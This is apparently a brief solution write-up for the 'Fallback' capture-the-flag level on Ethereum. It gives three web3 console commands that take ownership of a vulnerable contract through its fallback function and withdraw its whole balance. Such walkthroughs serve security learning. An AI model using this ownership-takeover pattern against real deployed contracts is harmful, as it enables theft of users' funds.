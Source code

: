 # 1. Fallback

Goal :

- claim ownership of the contract
- reduce its balance to 0

````
// we need to contribute so we can call the fallback function
> await contract.contribute.sendTransaction({from:player, value:web3.utils.toWei('0.0001', 'ether')})
// call the callback function which will make us the owner of the contract
> await web3.eth.sendTransaction({from:player, to:contract.address, value:web3.utils.toWei('0.0001', 'ether')})
// as the owner, withdraw the eth stored
> await contract.withdraw()
````

Useful link :

- https://ethereum.stackexchange.com/questions/53094/sending-ether-via-contract-instance